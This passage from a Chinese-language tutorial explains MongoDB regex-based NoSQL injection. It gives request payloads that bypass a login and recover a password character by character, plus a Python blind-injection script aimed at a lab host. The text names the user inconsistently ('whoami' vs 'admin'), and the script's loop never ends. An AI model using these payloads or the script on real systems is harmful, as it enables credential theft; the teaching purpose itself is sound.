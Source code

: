 进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'admin', 'password':{$regex:'.{6}'}})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
> db.users.find({'username':'admin', 'password':{$regex:'.{7}'}})
>
```

由于 whoami 用户的 password 长度为 6，所以查询条件 `{'username':'admin', 'password':{$regex:'.{6}'}}` 为真，便能成功登录，而 `{'username':'admin', 'password':{$regex:'.{7}'}}` 为假，自然也就登录不了。

知道 password 的长度之后我们便可以逐位提取 password 的字符了：

```javascript
username=admin&password[$regex]=1.{5}
username=admin&password[$regex]=12.{4}
username=admin&password[$regex]=123.{3}
username=admin&password[$regex]=1234.{2}
username=admin&password[$regex]=12345.*
username=admin&password[$regex]=123456
或
username=admin&password[$regex]=^1
username=admin&password[$regex]=^12
username=admin&password[$regex]=^123
username=admin&password[$regex]=^1234
username=admin&password[$regex]=^12345
username=admin&password[$regex]=^123456
```

下面给出一个 MongoDB 盲注脚本：

```python
import requests
import string

password = ''
url = 'http://192.168.226.148/index.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:

            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json

            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c

# 输出如下: 
# [+] 1
# [+] 12
# [+] 123
# [+] 1234
# [+] 12345
# [+] 123456
```